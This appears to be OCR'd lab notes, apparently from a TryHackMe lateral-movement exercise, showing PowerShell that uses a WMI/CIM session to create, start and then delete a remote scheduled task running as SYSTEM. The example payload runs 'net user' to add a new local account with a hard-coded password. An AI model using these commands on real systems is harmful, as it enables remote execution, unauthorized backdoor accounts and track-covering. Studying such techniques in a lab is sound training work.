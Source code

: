 To create and execute scheduled tasks remotely using PowerShell and WMI, follow these steps:

1. Assuming you have established a WMI session and stored it in the `$Session` variable, you can use the following commands to create a scheduled task:

```powershell
# Payload must be split into Command and Args
$Command = "cmd.exe"
$Args = "/c net user munra22 aSdf1234 /add"

# Define the task action
$Action = New-ScheduledTaskAction -CimSession $Session -Execute $Command -Argument $Args

# Register the scheduled task
Register-ScheduledTask -CimSession $Session -Action $Action -User "NT AUTHORITY\SYSTEM" -TaskName "THMtask2"

# Start the scheduled task
Start-ScheduledTask -CimSession $Session -TaskName "THMtask2"
```

Replace `$Command` and `$Args` with the desired command and arguments you want the scheduled task to execute. Adjust the `-User` parameter if you need to specify a different user for the task.

2. To delete the scheduled task after it has been used, use the following command:

```powershell
Unregister-ScheduledTask -CimSession $Session -TaskName "THMtask2"
```

Make sure to adjust the commands and parameters according to your specific scenario. The required ports for WMI communication are 135/TCP, 49152-65535/TCP (DCERPC), and either 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS). The user account used for creating and executing scheduled tasks remotely should have the necessary permissions, such as being a member of the Administrators group.